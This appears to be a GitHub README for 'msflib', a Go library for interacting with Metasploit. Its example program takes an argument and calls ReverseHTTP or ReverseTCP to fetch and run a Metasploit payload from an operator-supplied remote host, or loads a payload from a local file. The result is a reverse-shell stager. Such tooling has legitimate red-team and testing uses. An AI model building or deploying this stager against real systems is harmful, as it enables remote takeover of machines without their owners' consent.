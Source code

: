 # msflib
A golang library designed to interact with Metasploit

Note: 32-bit and 64 bit payloads need to be compiled with corresponding compiling options.
For example, 32-bit payloads need to be compiled into 32-bit payloads

Example:
```
package main

import (
	"msflib"
	"os"
	"strings"
)

func main() {
	// check args
	if len(os.Args) < 2 {
		os.Exit(0)
	}

	switch {
	case strings.HasPrefix(os.Args[1], "http"):
		msflib.ReverseHTTP(os.Args[1])
	case strings.HasPrefix(os.Args[1], "tcp"):
		msflib.ReverseTCP(os.Args[1])
	default:
		msflib.LoadLocal(os.Args[1]) // assumes Arg[1] is a filename
	}
}

```
